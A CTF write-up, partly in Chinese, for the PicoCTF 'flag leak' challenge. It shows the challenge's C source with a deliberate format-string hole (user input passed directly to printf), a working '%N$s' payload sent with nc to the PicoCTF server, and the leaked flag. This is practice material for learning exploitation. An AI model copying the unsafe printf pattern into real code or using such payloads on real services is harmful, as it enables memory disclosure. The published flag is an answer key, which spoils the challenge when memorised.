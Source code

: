 ```yaml
---
title: PicoCTF - flag leak
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - flag leak

## Background
Format String Bug
![](https://hackmd.io/_uploads/BkqBmpOih.png)
![](https://hackmd.io/_uploads/SyvLXauon.png)

## Source code
:::spoiler
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::

## Recon
這一題比計安教的還簡單，不過我全忘了QQ
先用gdb跟一下，發現在stack的地方有flag的痕跡，記一下相對位置就可以print出來，如果怕不同device會有問題的話就多幾個

## Exploit
Payload: `%20$s%21$s%22$s%23$s%24$s%25$s%26$s`
```bash!
python -c 'print("%20$s%21$s%22$s%23$s%24$s%25$s%26$s")' | nc saturn.picoctf.net 50811
Tell me a story and then I'll tell you one >> Here's a story -
������e�
        setresgidCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}���̓ii
```

Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}`